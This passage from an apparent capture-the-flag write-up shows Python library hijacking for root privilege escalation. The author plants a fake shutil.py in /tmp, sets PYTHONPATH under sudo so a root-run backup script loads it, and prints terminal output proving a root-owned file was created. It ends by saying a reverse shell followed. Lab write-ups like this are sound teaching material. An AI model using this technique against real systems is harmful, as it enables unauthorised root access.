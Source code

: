 After running the script we are presented with a collection of options that we can select by inputting a number. from our recon so far, we know options 4, 5, 6, and 7 need admin access. This privesc seems like it should be easy, but there is a little more to it. All the commands have a full path, so we cannot do a Bash path override. There is one function named `backup_web` that seems interesting. This function calls the`/opt/scripts/backup.py` script. However, the code in the script isn't exploitable. But we can do some [Python Library Hijacking on Linux](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

The basic premise of the attack is to create a Python module with the same name as an imported library, then modify the `PYTHONPATH` so that our "fake" module is run instead of the Python standard library file. The only import in the script in `shutil`.

I started by creating a file named `shutil.py` with the code we want. I choose this file name as that was the library imported in the `backup.py` file. In this example, I will just create a file named `/tmp/meow.txt` as a PoC and see if it is created by `root`. I wrote a one-liner command to create this file.

```python
echo -e '#!/usr/bin/python3\n\nfrom pathlib import Path\n\nPath("/tmp/meow.txt").touch()\n' > /tmp/shutil.py
```

And here is the resultant file:

```python
#!/usr/bin/python3

from pathlib import Path

Path("/tmp/meow.txt").touch()
```

Then run the script using.

```none
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
```

This command sets the `PYTHONPATH` to `/tmp` then runs the `admin_tasks.sh` script with `6` as standard input. The reason I use two one-liners to create the Python file, then execute it is that the `/tmp` directory is overwritten periodically - about every 2 minutes or so. It would make sense to find another directory, but I was feeling lazy.

Success! After running the script we get a file named `meow.txt` which is owned by `root`.

```none
waldo@admirer:/tmp$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/tmp$ ls -lisa
total 16
131105 4 drwxrwxrwt  3 root  root  4096 Sep 19 04:28 .
     2 4 drwxr-xr-x 22 root  root  4096 Apr 16  2020 ..
142487 0 -rw-r--r--  1 root  root     0 Sep 19 04:28 meow.txt
142253 4 -rw-r--r--  1 waldo waldo  129 Sep 19 04:28 shutil.py
132780 4 drwx------  2 root  root  4096 Sep 19 00:42 vmware-root
```

At this point, we can modify the `shutil.py` file to get the root flag or make a reverse shell. I choose the reverse shell option.
